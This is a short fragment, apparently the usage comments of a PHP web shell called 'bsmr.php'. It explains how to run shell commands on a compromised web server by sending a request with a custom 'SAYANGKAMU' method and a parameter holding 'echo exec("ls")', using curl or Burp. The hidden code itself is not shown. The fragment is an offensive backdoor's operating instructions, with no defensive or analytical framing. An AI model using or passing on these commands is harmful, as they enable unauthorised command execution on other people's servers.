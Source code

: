 # bsmr.php
          // using 
         // curl -X SAYANGKAMU ssl://url.domain/path/filename.ext  -d 'SayangKamu=echo exec("ls");' 
        // FireFox ( using burp/ another change request get/post to SAYANGKAMU and add params SayangKamu=echo exec("ls"); 
